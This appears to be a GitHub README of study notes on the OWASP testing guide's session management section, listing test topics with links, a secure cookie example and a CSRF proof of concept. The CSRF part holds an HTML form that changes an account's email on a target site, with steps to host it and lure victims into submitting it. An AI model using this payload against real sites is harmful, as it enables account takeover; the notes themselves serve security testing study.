



# 1 [Testing for Session Management Schema](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/01-Testing_for_Session_Management_Schema.md)

# 2 [Testing for Cookies Attributes](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/02-Testing_for_Cookies_Attributes.md)

```http
Set-Cookie: __Host-SID=<session token>; path=/; Secure; HttpOnly; SameSite=Strict.
```

### Example 
Missing cookie attribute (Httponly,Secure,Samsite)



# 3 [Testing for Session Fixation](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/03-Testing_for_Session_Fixation.md)

# 4 [Testing for Exposed Session Variables](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/04-Testing_for_Exposed_Session_Variables.md)
```http
GET requests should not be used, as the Session ID may be exposed in Proxy or Firewall logs
```
# 5 [Testing for Cross Site Request Forgery](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery.md)
Step 1:
Create an [HTML page](./Csrf_poc.html) similar to that shown below
```html
<html>
<form enctype="application/x-www-form-urlencoded" method="POST" action="https://thisislegal.com/user/account">
    <table>
        <tr>
            <td>account_email</td>
            <td><input type="text" value="hauvan1416@gmail.com" name="account_email"></td>
        </tr>
        <tr>
            <td>accountSubmit</td>
            <td><input type="text" value="Update" name="accountSubmit"></td>
        </tr>
    </table><input type="submit" value="https://thisislegal.com/user/account">
</form>

</html>
```
Step 2: Host the HTML on a malicious or third-party site
Step 3:Send the link for the page to the victim(s) and induce them to click it.

**Before submit**



**After submit**



# 6 [Testing for Logout Functionality](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/06-Testing_for_Logout_Functionality.md)

# 7 [Testing Session Timeout](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/07-Testing_Session_Timeout.md)


# 8 [Testing for Session Puzzling](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/08-Testing_for_Session_Puzzling.md)

# 9 [Testing for Session Hijacking](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/09-Testing_for_Session_Hijacking.md)


